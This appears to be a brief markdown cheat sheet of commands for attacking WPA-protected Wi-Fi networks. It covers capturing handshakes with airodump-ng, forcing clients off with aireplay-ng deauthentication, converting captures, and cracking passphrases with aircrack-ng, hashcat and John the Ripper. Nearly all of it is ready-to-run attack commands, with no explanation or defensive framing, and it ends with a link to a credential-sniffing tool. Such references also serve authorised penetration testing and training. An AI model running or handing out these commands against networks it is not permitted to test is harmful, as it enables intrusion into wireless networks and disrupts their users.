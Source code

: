 # Capture Handshake
1. `airmon-ng start wlan0`
2. `airodump-ng mon0 --write capture.cap -c 11`
3. `aireplay-ng --deauth 0 -a bb:bb:bb:bb:bb:bb mon0`

# Convert pcap files for john and hashcat
- `/usr/lib/hashcat-utils/cap2hccapx.bin input.pcap output.hccapx [filter by essid] [additional network essid:bssid]`
- `/usr/sbin/hccap2john`
- `/usr/sbin/vncpcap2john`
- `/usr/sbin/wpapcap2john`

# Cracking Handshake with Aircrack
- `aircrack-ng -w /usr/share/wordlist/fasttrack.txt 0001.cap`

# Cracking Handshakes with Hashcat
- Dictionary Attack `hashcat.exe -m 2500 capture.hccapx rockyou.txt`
- Brute-Force: `hashcat.exe -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d` 
- Rule-Based: `hashcat.exe -m 2500 -r rules/best64.rule capture.hccapx rockyou.txt`

# Cracking Handshakes with John The Ripper
- Did you run `hccap2john`?
- `john --format=wpapsk --wordlist=/usr/share/wordlists/rockyou.txt crackmecap`
- `john --format=wpapsk-opencl --wordlist=/usr/share/wordlists/rockyou.txt crackmecap`
# Other Resources:
- https://github.com/lgandx/PCredz